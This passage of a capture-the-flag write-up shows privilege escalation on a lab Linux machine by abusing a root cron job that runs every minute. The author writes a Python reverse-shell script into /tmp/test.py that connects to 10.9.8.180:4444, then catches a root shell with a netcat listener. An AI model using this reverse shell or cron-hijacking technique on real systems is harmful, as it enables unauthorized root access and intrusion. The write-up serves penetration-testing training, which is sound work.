 ```bash
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * *  root /antivirus.sh
* * * * *  root antivirus.sh
* * * * *  root /home/karen/backup.sh
* * * * *  root /tmp/test.py
```
the asterisks, means that the scripts will run every minute of every hour of every day of every month, regardless of the day of the week. 
I'm going to test both `test.py` and `backup.sh` script for a reverse shell.

Starting with `test.py`.
```bash
ls -al /tmp
total 44
drwxrwxrwt 11 root root 4096 Jul 15 10:51 .
drwxr-xr-x 19 root root 4096 Jul 15 10:48 ..
drwxrwxrwt  2 root root 4096 Jul 15 10:47 .ICE-unix
```

it's look like the `test.py` has been deleted, recreate it in the `tmp` folder and make sure to add the execution `chmod +x <file>` permission on both of the scripts, otherwise it wont be executed.

Refrred to ->  [Reverse Shell Cheat Sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
```py
#!/usr/bin/python3

import socket
import subprocess
import os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.9.8.180",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```
On the attacker machine, start the listener

```bash
nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.9.8.180] from (UNKNOWN) [10.10.237.210] 51296
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
```
Done!, we have successfully obtined a shell from the `test.py` scheduled task.
